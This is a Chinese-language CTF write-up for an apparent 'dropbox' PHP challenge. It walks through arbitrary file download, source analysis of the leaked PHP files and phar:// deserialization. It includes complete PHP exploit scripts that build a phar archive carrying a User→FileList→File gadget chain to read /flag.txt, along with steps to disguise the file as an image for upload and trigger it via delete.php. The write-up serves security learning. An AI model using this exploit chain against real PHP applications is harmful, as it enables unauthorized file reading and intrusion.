




## 考察知识点：

## 1.任意文件下载

## 2.phar://伪协议 触发序列化造成文件读取


https://blog.csdn.net/weixin_44077544/article/details/102844554


1.任意文件下载漏洞下载网页源码 

有这几个php文件，主要看class.php和delete.php文件按




2. 源码分析

download.php中下载的文件名不能含有flag.php

所以推测存在flag文件

```javascript
<?php
session_start();
if (!isset($_SESSION['login'])) {
    header("Location: login.php");
    die();
}

if (!isset($_POST['filename'])) {
    die();
}

include "class.php";
//ini_set()这个函数，可以设置php的一些配置，其中就包括open_basedir，用来限制当前程序可以
//可以访问的目录，后来问了一下朱师傅，了解到：它是可以访问设置目录下的所有下级目录。
//若"open_basedir = /dir/user", 那么目录 “/dir/user” 和 “/dir/other"都是可以
//访问的。所以如果要将访问限制在仅为指定的目录，请用斜线结束路径名。”."可代表当前
//目录，open_basedir也可以同时设置多个目录,在Windows中用分号分隔目录,在任何其它
//系统中用冒号分隔目录。例：
//ini_set(“open_basedir”, getcwd() . “:/etc:/tmp”); 
//就是只可以访问当前目录(getcwd()返回当前目录)、/etc和/tmp三个目录。
//解释了为什么要在delete.php中利用payload，而不是download.php。
//ini_set("open_basedir", getcwd() . ":/etc:/tmp");

chdir($_SESSION['sandbox']);
$file = new File();
$filename = (string) $_POST['filename'];
if (strlen($filename) < 40 && $file->open($filename) && stristr($filename, "flag") === false) {
    Header("Content-type: application/octet-stream");
    Header("Content-Disposition: attachment; filename=" . basename($filename));
    echo $file->close();
} else {
    echo "File not exist";
}
?
```


index.php

```javascript
<?php
include "class.php";

$a = new FileList($_SESSION['sandbox']);
$a->Name();
$a->Size();
?>
```

当执行 $a = new FileList($_SESSION[‘sandbox’])时，会先调用构造函数，把“$_SESSION[‘sandbox’]”目录下的所有文件，都放到 $a->files中，注意这是个数组，解释了为什么，在后面构造payload时，\$this->files要等于一个数组。


class.php文件中存在三个类，含有很多的魔法函数

一下主要对魔法函数进行分析：

```javascript
<?php
error_reporting(0);
$dbaddr = "127.0.0.1";
$dbuser = "root";
$dbpass = "root";
$dbname = "dropbox";
$db = new mysqli($dbaddr, $dbuser, $dbpass, $dbname);

class User {
    public $db;

    public function __construct() {
        global $db;
        $this->db = $db;
    }

    public function user_exist($username) {
        $stmt = $this->db->prepare("SELECT `username` FROM `users` WHERE `username` = ? LIMIT 1;");
        $stmt->bind_param("s", $username);
        $stmt->execute();
        $stmt->store_result();
        $count = $stmt->num_rows;
        if ($count === 0) {
            return false;
        }
        return true;
    }

    public function add_user($username, $password) {
        if ($this->user_exist($username)) {
            return false;
        }
        $password = sha1($password . "SiAchGHmFx");
        $stmt = $this->db->prepare("INSERT INTO `users` (`id`, `username`, `password`) VALUES (NULL, ?, ?);");
        $stmt->bind_param("ss", $username, $password);
        $stmt->execute();
        return true;
    }

    public function verify_user($username, $password) {
        if (!$this->user_exist($username)) {
            return false;
        }
        $password = sha1($password . "SiAchGHmFx");
        $stmt = $this->db->prepare("SELECT `password` FROM `users` WHERE `username` = ?;");
        $stmt->bind_param("s", $username);
        $stmt->execute();
        $stmt->bind_result($expect);
        $stmt->fetch();
        if (isset($expect) && $expect === $password) {
            return true;
        }
        return false;
    }

    public function __destruct() {
        $this->db->close();
    }
}

class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct($path) {
        $this->files = array();
        $this->results = array();
        $this->funcs = array();
        $filenames = scandir($path);

        $key = array_search(".", $filenames);
        unset($filenames[$key]);
        $key = array_search("..", $filenames);
        unset($filenames[$key]);

        foreach ($filenames as $filename) {
            $file = new File();
            $file->open($path . $filename);
            array_push($this->files, $file);
            $this->results[$file->name()] = array();
        }
    }

//__call($func,$args)会在对象调用的方法不存在时，自动执行。 $func:被调用的方法名，
//所以$func()在这个魔术方法中，可以表示被调用的那个方法； $args : 被调用方法中的
//参数（这是个数组
    public function __call($func, $args) {
        array_push($this->funcs, $func);
        foreach ($this->files as $file) {
            $this->results[$file->name()][$func] = $file->$func();
        }
    }

    public function __destruct() {
        $table = '<div id="container" class="container"><div class="table-responsive"><table id="table" class="table table-bordered table-hover sm-font">';
        $table .= '<thead><tr>';
        foreach ($this->funcs as $func) {
            $table .= '<th scope="col" class="text-center">' . htmlentities($func) . '</th>';
        }
        $table .= '<th scope="col" class="text-center">Opt</th>';
        $table .= '</thead><tbody>';
        foreach ($this->results as $filename => $result) {
            $table .= '<tr>';
            foreach ($result as $func => $value) {
                $table .= '<td class="text-center">' . htmlentities($value) . '</td>';
            }
            $table .= '<td class="text-center" filename="' . htmlentities($filename) . '"><a href="#" class="download">下载</a> / <a href="#" class="delete">删除</a></td>';
            $table .= '</tr>';
        }
        echo $table;
    }
}

class File {
    public $filename;

    public function open($filename) {
        $this->filename = $filename;
        if (file_exists($filename) && !is_dir($filename)) {
            return true;
        } else {
            return false;
        }
    }

    public function name() {
        return basename($this->filename);
    }

    public function size() {
        $size = filesize($this->filename);
        $units = array(' B', ' KB', ' MB', ' GB', ' TB');
        for ($i = 0; $size >= 1024 && $i < 4; $i++) $size /= 1024;
        return round($size, 2).$units[$i];
    }

    public function detele() {
        unlink($this->filename);
    }

    public function close() {
        return file_get_contents($this->filename);
    }
}
?>
```


# 3. file_get_contents()函数解析phar://伪协议时会将meta-data类型的数据进行反序列化




# 4.exp


直接构造：

```javascript
<?php
class File {
    public $filename;

    public function close() {
        return file_get_contents($this->filename);
    }
}

class User {
    public $db;
    public function __destruct() {
        $this->db->close();
    }
}

$phar = new Phar("phar1.phar");
$phar->startBuffering();
$phar->addFromString("exp.txt","test");
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");

$user=new User();


$phar->setMetadata($user);
$phar->stopBuffering();
```

但是这个exp不能用，因为获取到的flag内容没有回显

所以中途还要经过fileLise类


```javascript
<?php
class User {
    public $db;
}

class File {
    public $filename;
}
class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct() {
        $file = new File();
        $file->filename = '/flag.txt';
        $this->files = array($file);
        $this->results = array();
        $this->funcs = array();
    }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar

$phar->startBuffering();

$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$o = new User();
$o->db = new FileList();

$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("exp.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```


# 5. 上传构造的phar文件

upload.php文件

```javascript
if (isset($_FILES["file"])) {
    $filename = $_FILES["file"]["name"];
    $pos = strrpos($filename, ".");
    if ($pos !== false) {
        $filename = substr($filename, 0, $pos);
    }

    $fileext = ".gif";
    switch ($_FILES["file"]["type"]) {
        case 'image/gif':
            $fileext = ".gif";
            break;
        case 'image/jpeg':
            $fileext = ".jpg";
            break;
        case 'image/png':
            $fileext = ".png";
            break;
        default:
            $response = array("success" => false, "error" => "Only gif/jpg/png allowed");
            Header("Content-type: application/json");
            echo json_encode($response);
            die();
    }
```


upload文件只对上传文件的后缀名和类型做限制，更改文件名和类型即可上传：



# 6. delete.php文件触发反序列化

因为download.php有限制



只能访问到etc和tmp文件下的文件


# 7.delete.php访问phar.png文件读取到flag


补充：

```javascript
<?php
#代码精简一下
class File {
    public $filename;

    public function close() {
        return file_get_contents($this->filename);
    }
}

/*
 * 利用链：
 * User{}-->$db=new FileList{}-->__destruct()-->FileList{}__call()-->
 * (__call函数第一个参数赋值为close()) new File{}__close()-->file_get_contents读取flag
 *
 * */

class User {
    public $db;
    public function __destruct() {
//        user类无法调用close()函数
//        触发fileList的__call函数
        $this->db->close();
    }
}
class FileList {
    private $files;
    private $results;
    private $funcs;
    /*
     * __call方法当对象调用一个无法访问的函数时触发该方法
     * 并且触发时会将，调用的函数名赋值给第一个参数，这里为$func=close(),方法的参数赋值给第二个参数$args=null
     * */
    public function __call($func, $args) {
//        将close()函数压入$this->funcs数组
        array_push($this->funcs, $func);
//        从this->files数组中提取数值赋值给$file
        foreach ($this->files as $file) {
//            $file=new File();
//            然后变成了File的对象调用$func。也就是$file->close()
//            读取的结果赋值给$results[]数组，destruct()输出结果
            $this->results[$file->name()][$func] = $file->$func();
        }
    }
    public function __destruct() {
        #省略了一些影响阅读的table创建代码
        $table .= '<thead><tr>';
        foreach ($this->funcs as $func) {
            $table .= '<th scope="col" class="text-center">' . htmlentities($func) . '</th>';
        }
        $table .= '<th scope="col" class="text-center">Opt</th>';
        $table .= '</thead><tbody>';
        foreach ($this->results as $filename => $result) {
            $table .= '<tr>';
            foreach ($result as $func => $value) {
                $table .= '<td class="text-center">' . htmlentities($value) . '</td>';
            }
            $table .= '</tr>';
        }
        echo $table;
    }
}
?>
```


